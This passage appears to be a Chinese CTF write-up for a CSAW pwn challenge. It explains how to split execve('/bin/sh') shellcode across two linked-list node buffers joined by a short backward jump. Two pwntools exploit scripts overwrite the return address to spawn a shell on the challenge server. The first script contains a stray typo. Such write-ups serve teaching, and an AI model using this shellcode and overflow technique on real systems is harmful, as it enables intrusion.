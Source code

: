 我们知道简短的跳转指令包括:`\xEB**(\XEB + 8bits的相对偏移)`

布局：

```
        0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f
rsp+ 0: |- ADDRESS TO NODE 3 -|-- NODE 2 BUFFER ------
       00 00 00 00 00 00 00 00 48 f7 db 53 54 5f 99 52

rsp+16: - NODE 2 BUFFER -----------------------------|
       57 54 5e b0 3b 0f 05 00 00 00 00 00 00 00 00 00

rsp+32: |- ADDRESS TO NODE 2 -|-- NODE 1 BUFFER ------
       XX XX XX XX XX XX XX XX 31 c0 48 bb d1 9d 96 91

rsp+48: - NODE 1 BUFFER -----------------------------|
       d0 8c 97 ff eb YY ** 00 00 00 00 00 00 00 00 00
```

现在需要从`rsp+54`跳转到`rsp+8`，那么偏移offset就是`-46`或者`0xD2`, `-46 & 0xff = 0xD2`。

```python
from pwn import *

shellcode_first =  "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\xeb\xd2"
shellcode_second = "\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
print disasm(shellcode_first)
r = remote("pwn.chal.csaw.io", 9005)

r.recvuntil("Text for node 1:")
r.sendline(shellcode_first)
r.recvuntil("Text for node 2:")s
r.recvuntil("node.next: 0x")

rsp = int(r.recvline(), 16)
print(hex(rsp))
shellcode_address = p64(rsp + 40)

r.recvuntil("What are your initials?")
r.sendline("XXX>>RBP<<<" + shellcode_address)

r.interactive()
```

### solve2

```
from pwn import *

r = remote('pwn.chal.csaw.io', 9005)

r.sendlineafter('node 1:',
    '\x48\x89\xe7'  # mov   %rsp,%rdi
    '\x31\xf6'      # xor   %esi,%esi
    '\xeb\xdb'      # jmp   node 2
)
r.sendlineafter('node 2:',
    'AA'            # (overwritten later)
    '\x99'          # cdq
    '\xb0\x3b'      # mov   $0x3b,%al
    '\x0f\x05'      # syscall
)

r.recvuntil('node.next: ')
addr = int(r.recvline(), 16) + 0x28
r.sendlineafter('initials?', 'A' * 0xb + p64(addr) + '/bin/sh\x00')
r.interactive()
```
